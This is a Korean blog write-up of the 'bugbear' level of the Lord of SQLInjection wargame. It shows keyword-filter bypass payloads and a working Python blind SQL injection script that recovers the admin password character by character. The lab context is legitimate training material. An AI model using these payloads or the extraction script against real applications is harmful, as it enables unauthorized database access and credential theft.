 ```yaml
---
layout: single
title: "[Lord of SQLInjection] bugbear write-up"
date: 2025-04-25 20:14 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (bugbear)

### ✏️ 풀이

필터링 되는 부분을 해석해보면 pw 파라미터는 싱글쿼터(')만 필터링하고 no 파라미터에서 필터링하는 문자는 아래와 같다.

```
' 
substr
ascii
=
or
and
space
like
0x
```

![image-20250425201527429](/images/2025-04-25-los-bugbear/image-20250425201527429.png)

<br>

먼저 공백을 /**/ 주석을 이용해 우회하고, and or 연산자 우선 순위를 이용하는데 or 연산자를 || 문자를 이용해서 우회할 수 있다. 또한 =과 like를 방어하고 있는데 in 문자와 더블쿼터를 사용해서 아래처럼 만들어주면 `Hello admin` 이 출력되는 것을 볼 수 있다.

```
1/**/||/**/id/**/in/**/("admin")
```

![image-20250425203036937](/images/2025-04-25-los-bugbear/image-20250425203036937.png)

<br>

페이로드는 아래와 같고 substr를 right와 left함수를 사용하여 우회하였고 =와 like는 in함수를 사용해서 admin pw 값의 첫 글자가 a인지 확인하는 페이로드이다. 이제 blind sqli 코드를 짜보자.

```
1/**/||/**/id/**/in/**/("admin")/**/%26%26right(left(pw,1,1))/**/in/**/("a")--/**/-
```

![image-20250425205124067](/images/2025-04-25-los-bugbear/image-20250425205124067.png)

<br>

최종 작성된 익스플로잇 코드는 아래와 같다. char

```python
import requests

url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"
pw = ""

cookie = {"PHPSESSID": "l4fo5d8u56opaucpiffcbfvver"}

for i in range(1, 100):
    found = False
    for j in range(32, 127):
        param = {
            "no": f'1/**/||/**/id/**/in/**/("admin")/**/&&/**/right(left(pw,{i}),1)/**/in/**/(char({(j)}))#',
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        if "Hello admin" in r.text:
            found = True
            print(f"[+]found! 패스워드 {i}번 째 문자는 {chr(j)}입니다.")
            pw += chr(j)
            break
    if not found:
        print("end")
        print(pw)
        break

```

이런식으로 나오는데 `52DC3991` 이 char 함수로 뽑은 거여서 DC가 소문자일 때랑 대문자일 때 전부 맞다고 판단하는 것 같다. 소문자로 바꿔서 넣으면 solve!

![image-20250425220504343](/images/2025-04-25-los-bugbear/image-20250425220504343.png)

![image-20250425221021675](/images/2025-04-25-los-bugbear/image-20250425221021675.png)

